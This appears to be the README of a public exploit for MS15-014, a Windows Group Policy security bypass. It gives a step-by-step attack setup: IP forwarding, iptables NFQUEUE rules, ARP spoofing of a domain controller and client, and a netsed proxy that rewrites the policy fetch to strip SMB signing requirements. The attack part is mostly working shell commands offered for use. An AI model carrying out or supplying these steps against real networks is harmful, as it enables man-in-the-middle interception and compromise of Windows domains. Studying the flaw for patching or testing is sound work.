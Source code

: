 # ms15-014
Exploit for MS15-014 Group policy security bypass

# About
This exploit will intercept the group policy call that tries to fetch the security policies. 
It will rewrite it so that it is no longer valid. In unpatched Windows versions (https://technet.microsoft.com/en-us/library/security/ms15-014.aspx) that have not installed the KB3004361 update the security settings will be reverted to the default non hardened settings.
This effectively disables SMB signing making your AD infrastructure vulnerable for successfull man in the middle attacks.
This vulnerability has been discovered by Luke Jennings from MWR Labs and he has an excellent blog about this vulnerability: https://labs.mwrinfosecurity.com/blog/how-to-own-any-windows-network-with-group-policy-hijacking-attacks/.
As far as I am aware there have been no exploits released to the public. It has been made available in the commercial Core Impact vulnerability assessment tool, but I could not find the original exploit as a public download.
So, therefore I decided to write one myself.

# Requirements
- Linux with root privileges (i.e. iptables and NFQUEUE rules)
- netsed installed (i.e. apt-get install netsed / yum install netsed)

# Usage
Lets assume the following usecase:

Windows 2008/2012 Domain Controller 192.168.1.1
Windows 8/8.1 domain joined client 192.168.1.2

We first need to create a valid MITM scenario so that we can intercept and alter the traffic.
So, lets assume that we have an attacker that has Kali Linux running on ip 192.168.1.3.
The attacker should do something like this:

- Enable IP Forwarding
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
```
- Forward SMB2 traffic to NFQUEUE 1
```shell
iptables -I FORWARD -j NFQUEUE -p tcp --dport 445 --queue-bypass --queue-num 1
```
- Arp spoof the Windows client and the domain controller:
```shell
arpspoof 192.168.1.1 -t 192.168.1.2
arpspoof 192.168.1.2 -t 192.168.1.1
```
- Run program and get the netsed command once the group policies are fetched on the client
```shell
sniff_group_policy --i 192.168.134.11
```

If the Windows client tries to fetch the security policies the sniff_group_policy command will output a netsed command that can be used to revert all group policy security settings to the non safe defaults.
This can be manually triggered with the command:
```shell
gpupdate /force
```

Once you've identified the security UUID you should do the following:

- Flush existing iptables rules
```shell
iptables -F
```
- Run the netsed command that has been supplied by sniff_group_policy
- redirect SMB2 traffic to the netsed proxy
```shell
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 445 -j REDIRECT --to-port 446
```

Fetch the latest policies on the client with a gpupdate /force and you have lifted the SMB signing requirements.

# Confirming that it worked
If you run rsop.msc on the client you can verify this.
Go to Computer configuration -> Windows settings -> Security Settings -> Local Policies -> Security Options
The option Microsoft network client:Digitally sign communications (always) is no longer enabled.

